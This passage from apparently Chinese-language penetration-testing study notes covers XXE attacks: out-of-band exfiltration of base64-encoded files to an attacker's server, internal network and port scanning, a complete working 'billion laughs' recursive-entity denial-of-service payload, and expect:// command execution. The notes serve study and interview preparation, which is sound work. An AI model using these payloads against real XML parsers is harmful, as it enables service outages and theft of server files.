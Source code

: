 思路：

1、首先创建一个file外部实体来读取指定的文件，并使用base64进行编码；

2、创建第一个outer实体，该outer实例里面在创建一个inner外部实体，这个inner外部实体会去请求我们指定的http服务，在这个请求连接中将我们第一步创建的file实体读取的文件内容带上；

3、再去查看我们的服务器上的请求信息即可看到读取的文件的信息；



### 内网扫描

xxe 由于可以访问外部 url，也就有类似 ssrf 的攻击效果，同样的，也可以利用 xxe 来进行内网探测。可以先通过 file 协议读取一些配置文件来判断内网的配置以及规模，以便于编写脚本来探测内网。



### 内网端口扫描

根据回显的结果不同来判断端口是否开放；

![image-20230402173800378](C:\Users\friendship\Desktop\MiscTools\Pentest_Interview\XXE笔记\XXE笔记.assets\image-20230402173800378.png)

![image-20230402173818024](C:\Users\friendship\Desktop\MiscTools\Pentest_Interview\XXE笔记\XXE笔记.assets\image-20230402173818024.png)



### DDOS攻击

该攻击通过创建一项递归的 XML 定义，在内存中生成十亿个”abc”字符串，从而导致 DDoS 攻击。原理为：构造恶意的XML实体文件耗尽可用内存，因为许多XML解析器在解析XML文档时倾向于将它的整个结构保留在内存中，解析非常慢，造成了拒绝服务器攻击。



**进行递归调用，从下至上以指数形式增多；实验发现，小于1k的xml攻击payload可以消耗3G的内存。**

```
<?xml version="1.0"?>
<!DOCTYPE dos [
    <!ENTITY d1 "abc">
    <!ENTITY d2 "&d1;&d1;&d1;&d1;&d1;&d1;&d1;&d1;&d1;&d1;&d1;&d1;&d1;&d1;&d1;&d1;&d1;">
    <!ENTITY d3 "&d2;&d2;&d2;&d2;&d2;&d2;&d2;&d2;&d2;&d2;&d2;&d2;&d2;&d2;&d2;&d2;&d2;">
    <!ENTITY d4 "&d3;&d3;&d3;&d3;&d3;&d3;&d3;&d3;&d3;&d3;&d3;&d3;&d3;&d3;&d3;&d3;&d3;">
    <!ENTITY d5 "&d4;&d4;&d4;&d4;&d4;&d4;&d4;&d4;&d4;&d4;&d4;&d4;&d4;&d4;&d4;&d4;&d4;">
    <!ENTITY d6 "&d5;&d5;&d5;&d5;&d5;&d5;&d5;&d5;&d5;&d5;&d5;&d5;&d5;&d5;&d5;&d5;&d5;">
    <!ENTITY d7 "&d6;&d6;&d6;&d6;&d6;&d6;&d6;&d6;&d6;&d6;&d6;&d6;&d6;&d6;&d6;&d6;&d6;">
    <!ENTITY d8 "&d7;&d7;&d7;&d7;&d7;&d7;&d7;&d7;&d7;&d7;&d7;&d7;&d7;&d7;&d7;&d7;&d7;">
    <!ENTITY d9 "&d8;&d8;&d8;&d8;&d8;&d8;&d8;&d8;&d8;&d8;&d8;&d8;&d8;&d8;&d8;&d8;&d8;">
]>
<dos>&d9;</dos>
```



### expect命令执行

该扩展不是默认安装的，安装后可通过expect://来执行任意的php命令；

![image-20230402214028818](C:\Users\friendship\Desktop\MiscTools\Pentest_Interview\XXE笔记\XXE笔记.assets\image-20230402214028818.png)

 